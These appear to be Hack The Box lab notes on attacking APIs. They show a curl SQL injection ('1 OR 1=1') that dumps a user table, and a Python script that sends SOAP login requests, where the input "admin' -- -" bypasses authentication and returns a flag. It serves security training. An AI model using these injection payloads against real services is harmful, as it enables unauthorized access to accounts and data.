 
# APIs Attacks

## SQLI 

- try inject SQL in API paramters 
```bash
curl "http://10.129.230.235:3003/?id=1+OR+1=1+--+-"

[{"id":"1","username":"admin","position":"1"},{"id":"2","username":"HTB-User-John","position":"2"},{"id":"3","username":"WebServices","position":"3"},{"id":  
"8374932","username":"HTB{THE_FL4G_FOR_SQLI_IS_H3RE}","position":"736373"}]
```
- other example in soap based api 
```python 
import requests 


url = "http://10.129.202.133:3002/wsdl"

while True :
    username = input("username ")
    password = input("passowrd ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <username>{username}</username>
            <password>{password}</password>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"Login"'} )
    print(res.text)

```
- result
```shell-session
$ username admin' -- -
$ passowrd


<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><id>0</id><name>Administrator</name><email>admin@htb.net</email><username>admin</username><password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password></LoginResponse></soap:Body></soap:Envelope>
```
